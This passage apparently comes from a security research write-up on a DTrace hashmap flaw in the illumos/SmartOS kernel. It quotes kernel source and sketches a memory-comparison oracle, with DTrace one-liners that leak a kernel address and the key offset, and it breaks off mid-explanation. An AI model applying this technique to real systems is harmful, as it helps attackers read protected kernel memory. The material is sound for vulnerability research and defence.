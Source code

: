     typedef struct dtrace_key {
      uint64_t dttk_value;      /* data value or data pointer */
      uint64_t dttk_size;     /* 0 if by-val, >0 if by-ref */
    } dtrace_key_t;

So if there is more than one key value then an attacker is able to write into
the key values beyond the first one. The `dttk_value` field is treated as
pointer if the `dttk_size` field is non-zero.

Unfortunately, the only place where `dttk_value` field seems to be used is as
an argument to the `dtrace_bcmp` function. When the hashmap looks up a value and
finds a matching entry based on the hash code it checks that the keys are equal
using the `dtrace_bcmp` function.

https://github.com/joyent/illumos-joyent/blob/release-20151224/usr/src/uts/common/dtrace/dtrace.c#L1791

    for (i = 0; i < nkeys; i++, dkey++) {
      if (dkey->dttk_size != key[i].dttk_size)
        goto next; /* size or type mismatch */

      if (dkey->dttk_size != 0) {
        if (dtrace_bcmp(
            (void *)(uintptr_t)key[i].dttk_value,
            (void *)(uintptr_t)dkey->dttk_value,
            dkey->dttk_size))
          goto next;
      } else {
        if (dkey->dttk_value != key[i].dttk_value)
          goto next;
      }
    }

So we don't have a direct read or write primitive but we can tell indirectly
if a piece of memory is identical to the value the `dttk_value` field points to.
We can do this by:

1. Storing a value in the hash with two keys. A first dummy key and a second key
which is the the byte we want to check. ie:

        buf[0] = 0xff; hash[1, buf] = "h"

2. We can find the address of the `dttk_value` field for second key by doing:

        addr = (&hash[1, buf][0]) - 0x28

    Example showing the address of the value:

        [root@web01 ~]# dtrace -n 'char buf[1]; BEGIN {buf[0]=0xff;hash[1,buf]="h";addr = (&hash[1, buf][0]); print(addr)}'
        dtrace: description 'char buf[1]' matched 1 probe
        CPU     ID                    FUNCTION:NAME
          0      1                           :BEGIN char * 0xffffff00efa5c2d8

    If you look at the memory layout in the kernel the address of the key is
    clearly 0x28 behind the value (0x68):
